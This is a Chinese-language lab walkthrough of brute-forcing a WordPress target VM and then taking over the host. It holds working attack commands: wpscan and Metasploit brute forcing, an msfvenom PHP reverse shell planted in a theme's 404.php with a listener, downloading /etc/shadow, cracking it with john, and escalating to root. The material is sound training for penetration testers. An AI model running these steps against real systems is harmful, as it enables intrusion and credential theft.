# 网络安全：P38：WEB安全暴力破解 🔓

在本节课中，我们将学习WEB安全中的暴力破解技术。我们将通过一个完整的实战演练，演示如何对一个运行WordPress的靶机进行渗透测试。核心流程包括：信息收集、用户名枚举、密码暴力破解、获取Web Shell、权限提升，最终获取目标系统的root权限和flag值。

## 概述
暴力破解是网络安全中一种常见的攻击手段，其核心思想是尝试所有可能的组合来找到正确的凭证。本节课我们将使用Kali Linux作为攻击机，Ubuntu作为靶机，通过一系列工具和技术，逐步攻破一个WordPress网站，并最终控制整个系统。

---

## 暴力破解的基本思想 💡
上一节我们介绍了课程目标，本节中我们来看看暴力破解的核心思想。

暴力破解可以用**枚举法**的基本思想来概括。枚举法的基本思想是：根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解。若全部情况验证后都不符合题目的全部条件，则本题无解。

在进行WEB暴力破解时，我们尝试所有可能性以获取正确结果。如果未能获取结果，则可以扩大破解范围，直到取得想要的具体值。

---

## 实验环境搭建 🖥️
了解了基本思想后，我们需要搭建实验环境来实践。

*   **攻击机**：Kali Linux， IP地址：`192.168.253.12`
*   **靶机**：Ubuntu Linux， IP地址：`192.168.253.20`

我们的目标是获取靶机上的flag值，并取得其root权限。

---

## 靶场信息探测 🔍
环境搭建完毕，接下来我们需要对靶机进行侦察，收集尽可能多的信息。

我们只知道靶机的IP地址，但不知道它开放了哪些服务。因此，我们使用 `nmap` 工具进行扫描。

以下是探测靶机开放服务及版本信息的命令：
```bash
nmap -sV 192.168.253.20
```





此外，我们还可以进行更全面的扫描，获取操作系统、路由等信息：
```bash
nmap -T4 -A -v 192.168.253.20
```
*   `-T4`：使用最大线程数，以最快速度扫描。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出。

扫描结果显示靶机开放了80端口，运行着HTTP服务。

---

## Web服务敏感信息探测 🌐
探测到HTTP服务后，我们需要深入挖掘该服务下的敏感信息。

我们使用 `nikto` 工具对Web服务进行漏洞扫描和敏感目录发现：
```bash
nikto -host http://192.168.253.20
```
（如果端口不是80，则需要指定端口，例如 `http://192.168.253.20:8080`）

`nikto` 扫描结果中，我们发现了一个名为 `/secret/` 的敏感目录。





---

## 访问与识别Web应用 🕵️
发现敏感目录后，我们通过浏览器进行访问验证。

在浏览器中访问 `http://192.168.253.20/secret/`，发现这是一个隐藏的WordPress站点。但站点链接可能无法直接解析，我们需要在攻击机的 `/etc/hosts` 文件中添加解析记录：
```
192.168.253.20  vulnerable.wordpress.com
```
添加后刷新浏览器，即可正常访问WordPress站点。

---

## WordPress用户名枚举 👤
成功访问WordPress后台登录页面后，我们需要获取有效的用户名。

我们使用 `wpscan` 工具来枚举WordPress站点的用户名：
```bash
wpscan --url http://vulnerable.wordpress.com/secret/ --enumerate u
```
扫描结果显示存在用户 `admin`。

---

## 密码暴力破解 🔑
获取用户名后，下一步就是对`admin`账户的密码进行暴力破解。

我们使用Metasploit框架中的 `wordpress_login_enum` 模块进行破解。以下是操作步骤：

1.  启动Metasploit：`msfconsole`
2.  使用模块：`use auxiliary/scanner/http/wordpress_login_enum`
3.  设置参数：
    ```bash
    set RHOSTS 192.168.253.20
    set USERNAME admin
    set PASS_FILE /usr/share/wordlists/dirb/common.txt
    set TARGETURI /secret/
    ```
4.  运行模块：`run`

破解成功后，我们得到凭证：用户名 `admin`，密码 `admin`。

---

## 登录后台与上传Web Shell 🐚
利用破解的凭证登录WordPress后台，我们的目标是获取服务器控制权。

登录后台后，我们需要上传一个Web Shell。首先，使用 `msfvenom` 生成一个PHP反向Shell：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
将生成的PHP代码复制，在WordPress后台编辑主题的404模板页面（如 `404.php`），将代码粘贴进去并保存。





---







## 获取反向Shell与初步权限 📞
Web Shell已部署，现在需要让靶机执行它，从而让我们获得一个反向连接。



1.  在Metasploit中启动监听器：
    ```bash
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    run
    ```
2.  在浏览器中访问触发Web Shell的页面，例如：`http://vulnerable.wordpress.com/secret/wp-content/themes/twentyseventeen/404.php`。



监听器成功接收到来自靶机的反向连接，我们获得了 `meterpreter` 会话。通过 `sysinfo` 和 `id` 命令查看，当前用户是 `www-data`，权限较低。



---

## 权限提升至Root ⬆️
获得初始Shell后，我们需要将权限提升至root。







1.  从靶机下载密码文件：
    ```bash
    download /etc/passwd
    download /etc/shadow
    ```
2.  合并文件并使用 `john` 破解哈希：
    ```bash
    unshadow passwd shadow > crack.db
    john crack.db
    ```
3.  破解出一个用户 `marin` 的密码为 `marin`。
4.  在 `meterpreter` 的Shell中切换用户并提权：
    ```bash
    shell
    python -c ‘import pty; pty.spawn(“/bin/bash”)’ # 获取一个更稳定的终端
    su - marin # 密码: marin
    sudo su # 再次输入密码: marin
    whoami # 确认已是root用户
    ```



---



## 寻找并获取Flag 🏁
获得root权限后，最后一步是找到并读取flag文件。



通常flag位于根目录下：
```bash
cd /root
ls
cat flag.txt
```
成功读取到flag内容，渗透测试目标完成。



---



## 总结 📝
本节课我们一起学习了WEB安全中暴力破解的完整流程。我们从一个IP地址开始，通过`nmap`和`nikto`进行信息收集，利用`wpscan`枚举用户名，用Metasploit进行密码破解。成功登录WordPress后台后，我们上传Web Shell获得初始访问权限，最后通过破解本地用户密码成功提权至root，并最终获取了flag。



核心技术点包括：
*   **信息收集**：`nmap -sV -A`， `nikto`
*   **用户名枚举**：`wpscan --enumerate u`
*   **密码破解**：Metasploit `wordpress_login_enum` 模块
*   **Web Shell**：`msfvenom` 生成， `multi/handler` 监听
*   **权限提升**：下载 `/etc/shadow`， 使用 `unshadow` 和 `john` 破解， `su`/`sudo` 提权

